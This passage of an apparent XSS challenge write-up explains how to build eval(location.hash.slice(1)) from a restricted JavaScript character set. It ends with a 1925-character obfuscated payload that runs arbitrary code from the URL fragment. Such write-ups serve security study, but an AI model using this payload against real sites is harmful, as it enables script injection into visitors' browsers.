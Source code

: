 1. window.name
2. iframe + top.name
3. location.hash

The first two require creating another webpage, but the third does not, so let's focus on that!

We need to create the following string:

``` js
[]['constructor']['constructor']`_${'eval(location.hash.slice(1))'}`` `
```

So as long as the URL ends with `#alert(document.domain)`, the same effect can be achieved.

The only two characters missing from the new character set are `v` and `h`.

These two are actually not easy to find, because the easier ones have already been found. So where else can we find them?

First, for `v`, you can actually turn the native function into a string and get the string `[native code]`. But the output is different on Chrome and Firefox. For example, for RegExp:

Chrome output: `function RegExp() { [native code] }`
Firefox output: `function RegExp() {\n    [native code]\n}`

Firefox adds line breaks while Chrome doesn't, causing differences in character index. Therefore, it's impossible to get the letter "v" across browsers. However, let's first look at how to get the letter "h".

It's also not easy to get the letter "h", but if we can construct: `` 17['toString']`36` ``, we can actually get "h".

Because the above code converts the number 17 to base 36, we can get "h" because "h" is the 8th letter of the alphabet (9 digits + 8th letter of the alphabet = 17).

So how do we get the uppercase letter "S"? We can use the String constructor:

``` js
``['constructor'] + ''
// output
// "function String() { [native code] }"
```

And once we can use this toString technique, we can actually get any lowercase letter of the alphabet, including the "v" mentioned earlier.

I won't demonstrate the detailed process, just modify the code and the final result is (1925 characters):

``` js
[][`${``+{}}`[5]+`${``+{}}`[1]+`${``[0]}`[1]+`${e}`[18]+`${``+{}}`[6]+`${e}`[13]+`${``[0]}`[0]+`${``+{}}`[5]+`${``+{}}`[6]+`${``+{}}`[1]+`${e}`[13]][`${``+{}}`[5]+`${``+{}}`[1]+`${``[0]}`[1]+`${e}`[18]+`${``+{}}`[6]+`${e}`[13]+`${``[0]}`[0]+`${``+{}}`[5]+`${``+{}}`[6]+`${``+{}}`[1]+`${e}`[13]]`_${`e`+31[`${``+{}}`[6]+`${``+{}}`[1]+`${``[`${``+{}}`[5]+`${``+{}}`[1]+`${``[0]}`[1]+`${e}`[18]+`${``+{}}`[6]+`${e}`[13]+`${``[0]}`[0]+`${``+{}}`[5]+`${``+{}}`[6]+`${``+{}}`[1]+`${e}`[13]]}`[9]+`${``+{}}`[6]+`${e}`[13]+`${``[0]}`[5]+`${``[0]}`[1]+`${e}`[15]]`36`+`${0/0}`[1]+`${e}`[21]+`${[][`${``+{}}`[5]+`${``+{}}`[1]+`${``[0]}`[1]+`${e}`[18]+`${``+{}}`[6]+`${e}`[13]+`${``[0]}`[0]+`${``+{}}`[5]+`${``+{}}`[6]+`${``+{}}`[1]+`${e}`[13]]}`[14]+`${e}`[21]+`${``+{}}`[1]+`${``+{}}`[5]+`${0/0}`[1]+`${``+{}}`[6]+`${``[0]}`[5]+`${``+{}}`[1]+`${``[0]}`[1]+`.`+17[`${``+{}}`[6]+`${``+{}}`[1]+`${``[`${``+{}}`[5]+`${``+{}}`[1]+`${``[0]}`[1]+`${e}`[18]+`${``+{}}`[6]+`${e}`[13]+`${``[0]}`[0]+`${``+{}}`[5]+`${``+{}}`[6]+`${``+{}}`[1]+`${e}`[13]]}`[9]+`${``+{}}`[6]+`${e}`[13]+`${``[0]}`[5]+`${``[0]}`[1]+`${e}`[15]]`36`+`${0/0}`[1]+`${e}`[18]+17[`${``+{}}`[6]+`${``+{}}`[1]+`${``[`${``+{}}`[5]+`${``+{}}`[1]+`${``[0]}`[1]+`${e}`[18]+`${``+{}}`[6]+`${e}`[13]+`${``[0]}`[0]+`${``+{}}`[5]+`${``+{}}`[6]+`${``+{}}`[1]+`${e}`[13]]}`[9]+`${``+{}}`[6]+`${e}`[13]+`${``[0]}`[5]+`${``[0]}`[1]+`${e}`[15]]`36`+`.`+`${e}`[18]+`${e}`[21]+`${``[0]}`[5]+`${``+{}}`[5]+`e`+`${[][`${``+{}}`[5]+`${``+{}}`[1]+`${``[0]}`[1]+`${e}`[18]+`${``+{}}`[6]+`${e}`[13]+`${``[0]}`[0]+`${``+{}}`[5]+`${``+{}}`[6]+`${``+{}}`[1]+`${e}`[13]]}`[14]+1+`${[][`${``+{}}`[5]+`${``+{}}`[1]+`${``[0]}`[1]+`${e}`[18]+`${``+{}}`[6]+`${e}`[13]+`${``[0]}`[0]+`${``+{}}`[5]+`${``+{}}`[6]+`${``+{}}`[1]+`${e}`[13]]}`[15]+`${[][`${``+{}}`[5]+`${``+{}}`[1]+`${``[0]}`[1]+`${e}`[18]+`${``+{}}`[6]+`${e}`[13]+`${``[0]}`[0]+`${``+{}}`[5]+`${``+{}}`[6]+`${``+{}}`[1]+`${e}`[13]]}`[15]}`` ``
```
